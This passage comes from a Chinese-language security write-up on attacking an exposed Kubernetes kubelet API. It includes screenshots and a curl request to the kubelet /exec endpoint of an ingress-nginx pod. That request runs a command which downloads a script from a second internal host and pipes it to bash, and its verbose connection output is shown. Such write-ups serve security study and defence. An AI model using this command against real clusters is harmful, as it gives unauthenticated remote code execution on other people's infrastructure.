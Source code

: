 [![](assets/1699842580-62b1e624e8680efe4da9d7f76bb33ac0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025171318-bcba57c6-7316-1.png)  
发现也为成功，可能是笔者这里的环境问题所致，下面给出一个成功的截图：

[![](assets/1699842580-bd1eb53540e6ae2cea63740ab7f0ff94.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025171332-c5128ea2-7316-1.png)  
之后会再执行端返回用于查看执行结果的链接地址：

```plain
[root@localhost ~]# curl --insecure -v -H "X-Stream-Protocol-Version: v2.channel.k8s.io" -H "X-Stream-Protocol-Version: channel.k8s.io" -X POST "https://192.168.4.68:10250/exec/ingress-nginx/nginx-ingress-controller-6f5cbc5444-nkdg6/nginx-ingress-controller?command=/bin/bash&command=-c&command=curl+192.168.84.158:88+|+bash&input=1&output=1&tty=1"
* About to connect() to 192.168.4.68 port 10250 (#0)
*   Trying 192.168.4.68...
* Connected to 192.168.4.68 (192.168.4.68) port 10250 (#0)
* Initializing NSS with certpath: sql:/etc/pki/nssdb
* skipping SSL peer certificate verification
* SSL connection using TLS_ECDHE_RSA_WITH_AES_128_GCM_SHA256
* Server certificate:
*   subject: CN=192.168.4.68@1544518989
*   start date: 12月 11 09:03:09 2018 GMT
*   expire date: 12月 11 09:03:09 2019 GMT
*   common name: 192.168.4.68@1544518989
*   issuer: CN=192.168.4.68@1544518989
> POST /exec/ingress-nginx/nginx-ingress-controller-6f5cbc5444-nkdg6/nginx-ingress-controller?command=/bin/bash&command=-c&command=curl+192.168.84.158:88+|+bash&input=1&output=1&tty=1 HTTP/1.1
> User-Agent: curl/7.29.0
> Host: 192.168.4.68:10250
> Accept: */*
```